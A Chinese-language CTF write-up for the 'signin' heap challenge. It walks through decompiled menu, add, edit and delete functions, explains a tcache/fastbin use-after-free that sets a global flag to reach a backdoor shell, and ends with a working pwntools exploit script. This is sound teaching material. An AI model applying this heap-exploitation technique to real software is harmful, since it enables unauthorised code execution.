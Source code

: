 # 新春战“疫” signin

### 0x0 前置补偿

`calloc`函数可以跳过tcache直接在fastbin内申请内存。

tcache机制中，从bin中把chunk链接到tcache中的时候不检查size,(详见tcache_put函数)

### 0x1 分析

看一眼安全性：

```shell
[*] '/root/pwn/signin/signin/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

地址是固定的，GOT表也可以操作（不过用不到）

逻辑不复杂，`main()`函数中直接进入到`menu`中了，

`menu()`:

```c
unsigned __int64 menu()
{
  int idx; // eax
  __int64 s; // [rsp+0h] [rbp-20h]
  __int64 v3; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("your choice?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( idx == 2 )
  {
    edit();                                     // idx = 2    edit
  }
  else if ( idx > 2 )
  {
    if ( idx != 3 )
    {
      if ( idx == 6 )
        backdoor();                             // idx = 6    shell
      goto LABEL_12;
    }
    del();                                      // idx = 3    delete
  }
  else
  {
    if ( idx != 1 )
    {
LABEL_12:
      puts("no such choice!");
      return __readfsqword(0x28u) ^ v4;
    }
    add();                                      // idx = 1    add
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里有个后门函数。23333

`backdoor()`:

```c
void __noreturn backdoor()
{
  calloc(1uLL, 0x70uLL);
  if ( ptr )
    system("/bin/sh");
  exit(0);
}
```

里面首先调用`calloc()`函数申请内存，然后，检查`ptr`是否不为`0`.

`add()`

```c
unsigned __int64 add()
{
  unsigned int idx; // [rsp+Ch] [rbp-24h]
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("idx?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( addcnt >= 0 && idx <= 15 )
  {
    ptrlist[idx] = malloc(0x70uLL);             
    flags[idx] = 1;
    --addcnt;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里限制申请数为`9(addcnt)`，然后只能申请`0x70 + 0x10`大小的chunk。

`edit()`

```c
unsigned __int64 edit()
{
  int idx; // ST0C_4
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( cnt >= 0 )
  {
    puts("idx?");
    s = 0LL;
    v3 = 0LL;
    memset(&s, 0, 0x10uLL);
    read(0, &s, 0xFuLL);
    idx = atoi((const char *)&s);
    read(0, ptrlist[idx], 0x50uLL);             // < 0x50 
    --cnt;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里`edit`函数不检查`flag`直接可以编辑内存。但是`cnt`初始化为`0`，也就是只能编辑一次内存。

`delete()`

```c
unsigned __int64 del()
{
  unsigned int idx; // [rsp+Ch] [rbp-24h]
  __int64 s; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("idx?");
  s = 0LL;
  v3 = 0LL;
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  idx = atoi((const char *)&s);
  if ( idx <= 15 && flags[idx] == 1 )
  {
    free(ptrlist[idx]);
    flags[idx] = 0;
  }
  return __readfsqword(0x28u) ^ v4;
}
```

这里看来是不能double free ，但是没有把指针置零，可以编辑。

但是，可以先填满tcache，然后再释放的块就会进入fastbin，然后用`edit`函数更改`fd`指针指向`ptr - 0x10`，修改`ptr`为`True`，调用后门函数，完成。

[另外还有一种方法。](https://www.anquanke.com/post/id/199540#h3-32)

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./pwn')

def debug(p, cmd):
  '''cmd = 'b *%d\n' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def add(p, idx):
  p.sendlineafter("your choice?", '1')
  p.sendlineafter("idx?", str(idx))

def delete(p, idx):
  p.sendlineafter("your choice?", '3')
  p.sendlineafter("idx?", str(idx))

def edit(p, idx, content):
  p.sendlineafter("your choice?", '2')
  p.sendlineafter("idx?", str(idx))
  p.sendline(content)

#full tcache 
for i in range(7):
  add(p, i)
#idx to fastbin
add(p, 7)
#full tcache and add to fastbin
for i in range(8):
  delete(p, i)
#change bss
add(p, 1)
edit(p, 7, p64(0x4040C0 - 0x10))

p.sendlineafter("your choice?", '6')
p.interactive()

```









